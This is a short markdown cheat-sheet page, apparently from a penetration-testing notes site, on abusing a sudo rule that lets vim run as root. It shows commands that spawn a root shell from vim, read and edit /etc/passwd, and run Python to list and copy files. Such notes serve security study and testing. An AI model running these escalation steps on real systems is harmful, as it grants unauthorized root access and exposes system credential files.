 ```yaml
---
title: Sudo Vim Privilege Escalation
description: Sudo vim command might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
    - https://gtfobins.github.io/gtfobins/vim/
date: 2024-01-26
draft: false
---
```


## Investigation

```sh
sudo -l

(ALL) NOPASSWD: vim example.txt
```

If we can execute **"vim"** command as root, we can execute the shell command in the vim editor.

<br />

## Exploitation

Simply run **"vim"** command as root.

```sh
sudo vim example.txt
```

In Vim editor, we can run shell commands as root.

```sh
:r!whoami
```

### Options

```sh
# Read environment variables
# - We can list them by entering [tab] key after `:echo $`.
:echo $PATH

# Read another file
:read /etc/passwd

# Edit another file
:edit /etc/passwd

# Execute Python script
:py import os;os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
:py3 import os;os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
# Enumeration
:py3 import os;print(os.listdir("/"))
# Write file from another file
:py3 open("/tmp/new_file", "wb").write(open("/tmp/original_file", "rb").read())
```
